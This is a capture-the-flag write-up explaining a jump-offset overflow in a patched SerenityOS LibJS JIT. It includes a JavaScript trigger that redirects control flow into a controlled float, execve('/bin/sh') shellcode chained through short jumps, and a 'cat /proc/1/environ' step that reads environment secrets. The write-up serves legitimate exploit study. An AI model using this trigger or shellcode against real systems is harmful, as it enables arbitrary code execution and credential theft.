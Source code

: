 # Hop
## SerenityOS LibJS JIT pwn

### Patch

The provided patch adds an 'optimization' to the Serenity LibJIT compiler (used by the JS engine when the env var LIBJS_JIT is set).
When codegenning jumps, if the the offset between the current instruction and the target is within the range of a signed 8 bit int,
it will be encoded as a short jump (followed by a 3 byte nop lol).

### Bug

After the offset is checked, 3 is added to it account for the smaller instruction requiring a bigger jump. If `offset` is 125, 126 or 127, adding 3 will overflow,
causing it to become negative. This allows us to insert arbritrary control flow.

### Exploit

With some experimentation, we can generate a series of operations that both trigger the overflow and causes control flow to fall into a controllable location.

There are probably many sequences that work here, but I found a `switch` with a single (not-taken) case with lots of padding and a `default` (taken) with a small amount of padding and a `break`.

The `break` attempts to short jump to the end of the `switch` construct but instead overflows, falling back to within it. In this case it falls back to the middle of a value we control, a float.

```js
switch (2) {
    case 1:
        0xaa; 0xbb; 0xcc;
        5.896445725132126e-306;
        0xdd; 0xee; "pad"; "pad";
        break;
    default:
        "pad"; typeof([0xff]);
        break;
}
```

This float will compile to a `movabs $reg, <controlled value>`, and our `break` will jump to the bytes at the start of the controlled value. When disassembled, this is a `jmp +0x114; nop; nop; nop` which jumps over our `switch` block and into the middle of another later float.

### Shellcoding

We can now write arbritrary shellcode - each instruction must be at most 6 bytes, followed by a `jmp +6` to the next instruction. I have included a [script](solve/encode.py) to encode the following:

```py
mov edi, "/bin"             ; edi = "/bin"
mov edx, "/sh\x00"          ; edx = "/sh\x00"
shl rdx, 32; nop            ; rdx = "/bin\x00\x00\x00\x00"
or rdi, rdx; push rdi; nop  ; push(rdi = '/bin/sh\x00'); 
mov rdi, rsp; xor eax, eax  ; rdi = "/bin/sh\x00", eax = 0
mov al, 59; xor esi, esi    ; al = SYS_execve, esi = NULL
xor edx, edx; syscall       ; syscall(SYS_execve, "/bin/sh\x00", NULL, NULL)
```

The flag is in an environment variable, but we passed `NULL` so the environment is not inherited. We can just `cat /proc/1/environ` in Docker to read the initial env vars including the flag.
